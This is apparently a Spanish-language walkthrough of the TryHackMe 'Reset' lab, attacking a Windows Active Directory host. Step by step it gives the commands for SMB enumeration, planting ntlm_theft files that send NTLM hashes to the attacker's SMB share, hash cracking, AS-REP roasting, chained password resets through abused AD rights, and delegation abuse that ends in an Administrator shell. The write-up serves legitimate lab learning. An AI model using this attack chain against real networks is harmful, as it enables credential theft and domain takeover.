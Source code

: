 ```yaml
---
title: "Reset"
description: "Reset"
pubDate: 2025-05-20
---
```


https://tryhackme.com/r/room/resetui

# Fase de reconocimiento

Windows

## Buscamos puertos abiertos

````
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.252.53
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240524011732.png)

## Reconocimiento de servicios

````
nmap -sCV -p53,135,139,445,636,3389,5985,49671,49673,49676,49702 10.10.252.53
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240524012100.png)\##

## Enumeración SMB

````
crackmapexec smb 10.10.252.53
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240524012545.png)

````
crackmapexec smb 10.10.252.53 --shares -u 'anonymous' -p ''
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240524014000.png)

````
nmap --script "rdp-enum-encryption or rdp-ntlm-info" -p3389 -T4 10.10.252.53
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240524013254.png)
Añadir DNS a /etc/host

# Fase de ataque

## SMB

Conectarse a el Share Data

````
smbclient -U 'anonymous' //10.10.252.53/Data
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240524014641.png)
Montar

````
mount -t cifs "//10.10.252.53/Data" /mnt/montura
````

Como tenemos permisos de Escritura y Lectura
Robamos el NTLM

1. Copiamos una herramienta para crear un archivo a enviar al servidor

````
git clone https://github.com/Greenwolf/ntlm_theft
````

2. Ejecutamos

````
python3 ntlm_theft.py -g all -s 10.9.0.11 -f test
````

Ejemplo CSF

````
[Shell]
Command=2
IconFile=\\10.9.0.11\smbFolder\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
````

3. Copiamos los archivos al servidor
3. Nos ponemos en escucha

````
impacket-smbserver smbFolder $(pwd) -smb2support
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240524030845.png)

## Crackear NTLM

Copiamos el hash
Crack

````
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240524031138.png)
Comprobar credenciales

````
crackmapexec smb 10.10.252.53 -u 'AUTOMATE' -p 'Passw0rd1'
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240524031935.png)

## Conectarse con credenciales

````
evil-winrm -i 10.10.252.53 -u 'AUTOMATE' -p 'Passw0rd1'
````

\[-\] ==pwned!==

# Privilege Escalation

Nos conectamos

````
rpcclient -U "AUTOMATE%Passw0rd1" 10.10.252.53
````

Enumeramos usuarios

````
	enumdomusers
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240524033814.png)
Enumeramos usuarios Administradores

````
	enumdomgroups
	querygroupmem 0x200
	queryuser 0x45b
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240524034526.png)
Encontramos 2 usuarios más aparte del Administrador

## Bloodhound

Se puede usar está herramienta para ver los privilegios de todos los usuarios del AD

1. Instalar Herramienta

````
apt install neo4j bloodhound
````

2. Para recolectar en la maquina victima nos descargamos un Data Collector

````
git clone https://github.com/dirkjanm/BloodHound.py
````

3. Ejecutamos para recolectar datos

````
python3 bloodhound.py -ns 10.10.252.53 --dns-tcp -d THM.CORP -u 'AUTOMATE' -p 'Passw0rd1' -c All --zip
````

4. Ejecutamos ne4j y BloodHound. Subimos el zip.

````
neo4j console
bloodhound
````

Podemos Observar que hay 3 usuarios con AS-REP Roastable Users, por lo que podemos ponseguir un ticket
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240524164336.png)

## AS-REP Roastable Users

Conseguir TGT de los usuarios

````
impacket-GetNPUsers -request -format john -no-pass thm.corp/ERNESTO_SILVA
impacket-GetNPUsers -request -format john -no-pass thm.corp/TABATHA_BRITT
impacket-GetNPUsers -request -format john -no-pass thm.corp/LEANN_LONG
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240524165503.png)
Crack

````
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240524165656.png)
Encontramos 1 contraeña de TABATHA
Comprobar credenciales

````
crackmapexec smb 10.10.252.53 -u 'TABATHA_BRITT' -p 'marlboro(1985)'
````

## BloodHound

Encontramos un PATH para conseguir un usuario con más privielgios
Desde Transitive Object Control
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240524171056.png)
El primer usuario podemos tenemos privilegios GenericAll sobre él. Le cambiamos la contraseña.

````
net rpc password "SHAWNA_BRAY" "pass123@" -U "THM.CORP"/"TABATHA_BRITT"%"marlboro(1985)" -S "haystack.thm.corp"
````

El segundo tenemos privilegios ForceChangePassword sobre él. Le cambiamos la contraseña.

````
net rpc password "CRUZ_HALL" "pass123@" -U "THM.CORP"/"SHAWNA_BRAY"%"pass123@" -S "haystack.thm.corp"
````

El último tenemos privilegios GenericWrite sobre él. Le cambiamos la contraseña.

````
net rpc password "DARLA_WINTERS" "pass123@" -U "THM.CORP"/"CRUZ_HALL"%"pass123@" -S "haystack.thm.corp"
````

Comprobar credenciales

````
crackmapexec smb 10.10.252.53 -u 'DARLA_WINTERS' -p 'pass123@'
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240524171816.png)

Vemos que esté usuario tiene privilegios AllowdToDelegate sobre el controlador del AD.
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240524172302.png)
Esto nos permite impersonar al Administrador y conseguir un GoldenTicket para acceder.

## TGT (Ticket Granting Ticket)

Podemos impersonar al Administrador por el Servicio CIFS

````
impacket-getST -spn "cifs/haystack.thm.corp" -impersonate "Administrator" "thm.corp/DARLA_WINTERS:pass123@"
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240524173104.png)

````
export KRB5CCNAME=Administrator@cifs_haystack.thm.corp@THM.CORP.ccache
````

````
impacket-wmiexec -k -no-pass Administrator@haystack.thm.corp
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240524173116.png)
\[+\] ==pwned!==
